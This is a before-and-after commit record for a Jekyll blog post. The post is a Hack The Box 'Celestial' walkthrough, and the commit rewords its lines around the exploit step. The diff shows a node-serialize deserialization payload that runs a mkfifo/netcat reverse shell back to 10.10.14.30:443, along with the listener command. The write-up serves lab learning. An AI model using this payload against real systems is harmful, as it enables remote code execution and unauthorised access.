

Before and after one commit to 1n4r1/1n4r1.github.io, a Jekyll site: the page built from _posts/2019-10-05-Hackthebox-Celestial-Walkthrough.md, in a window 1280 px wide and 1400 px high, scrolled down 5254 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; a style sheet for code colours, icons or effects is not loaded.

Commit message:
modify some lines

```diff
--- a/_posts/2019-10-05-Hackthebox-Celestial-Walkthrough.md
+++ b/_posts/2019-10-05-Hackthebox-Celestial-Walkthrough.md
@@ -172,7 +172,8 @@ Linux kali 4.19.0-kali5-amd64 #1 SMP Debian 4.19.37-6kali1 (2019-07-22) x86_64 G
 {% endhighlight %}
 
 By combining previous information, we can obtain the payload.<br>
-Also, we need a reverse shell payload which we don't need to use both single quote and double quote.
+Also, we need a reverse shell payload which we don't need to use both single quote and double quote.<br>
+Meaning we have to merge the followings.
 {% highlight shell %}
 {"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2+2"}
 {% endhighlight %}
@@ -183,13 +184,12 @@ Also, we need a reverse shell payload which we don't need to use both single quo
 rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.30 443 >/tmp/f
 {% endhighlight %}
 
-Combaine these information. we can get following payload. (Don't forget to remove "\n"!!)
+Full Payload:
 {% highlight shell %}
-root@kali:~# cat payload.txt
 {"username":"Dummy","country":"Lameville","city":"Lametown","num":"_$$ND_FUNC$$_require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.30 443 >/tmp/f', function(error, stdout, stderr) { console.log(stdout) })"}
 {% endhighlight %}
 
-Now we had a payload.<br>
+Now we had a full payload.<br>
 We need base64 encoding for the payload and make sure to run a netcat listener.
 {% highlight shell %}
 root@kali:~# nc -nlvp 443
```
